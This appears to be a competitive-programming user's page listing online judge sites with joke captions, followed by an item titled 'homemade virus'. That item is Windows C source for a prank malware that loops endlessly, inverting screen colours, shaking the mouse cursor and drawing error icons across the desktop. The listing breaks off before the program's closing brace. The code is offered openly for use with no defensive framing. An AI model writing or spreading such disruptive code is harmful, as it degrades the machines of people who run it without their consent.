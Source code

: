 3.[HydroOJ](https://hydro.ac)

4.[更多LingZhiOJ](http://lingzhioj.cn)

5.[LibreOJ](https://loj.ac)

6.[十年OI一场空,不开long long见祖宗](https://noi.openjudge.cn)

7.[怎样进队拿国一,看懂洛谷A+B](https://luogu.com.cn)

8.自制病毒
```
#include <Windows.h>
#define MAX_EXECUTE 8
#define MAX_SOUNDS  3
int cursor_freq = 0;
HCRYPTPROV prov;
int random()
{
    if (prov == NULL)
        if (!CryptAcquireContext(&prov, NULL, NULL, PROV_RSA_FULL, CRYPT_SILENT | CRYPT_VERIFYCONTEXT))
            ExitProcess(1);
    int out;
    CryptGenRandom(prov, sizeof(out), (BYTE *)(&out));
    return out & 0x7fffffff;
}
void PlayloadCursor()
{
    POINT cursor;
    GetCursorPos(&cursor);
    SetCursorPos(cursor.x + (random() % 3 - 1) * (random() % (cursor_freq / 2200 + 2)), cursor.y + (random() % 3 - 1) * (random() % (cursor_freq / 2200 + 2)));
}
void PlayloadBlink()
{
    HWND hDesktop = GetDesktopWindow();
    HDC hdc = GetWindowDC(hDesktop);
    RECT rekt;
    GetWindowRect(hDesktop, &rekt);
    BitBlt(hdc, 0, 0, rekt.right - rekt.left, rekt.bottom - rekt.top, hdc, 0, 0, NOTSRCCOPY);
    ReleaseDC(hDesktop, hdc);
}
void PlayloadIcon()
{
    int iDesktopWidth = GetSystemMetrics(SM_CXSCREEN);
    int iDesktopHeight = GetSystemMetrics(SM_CYSCREEN);
    HWND hDesktop = GetDesktopWindow();
    HDC hdc = GetWindowDC(hDesktop);
    POINT cursor;
    GetCursorPos(&cursor);
    DrawIcon(hdc, cursor.x - 10, cursor.y - 10, LoadIcon(NULL, IDI_ERROR));
    if (random() % 2 == 0)
        DrawIcon(hdc, random() % iDesktopWidth, random() % iDesktopHeight, LoadIcon(NULL, IDI_WARNING));
}
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE PrevhInstance, LPSTR lpCmdLine, int nCmdShow)
{
    while (1)
    {
        PlayloadIcon();
        PlayloadBlink();
		PlayloadCursor();
        Sleep(150);
    }
    return 0;
```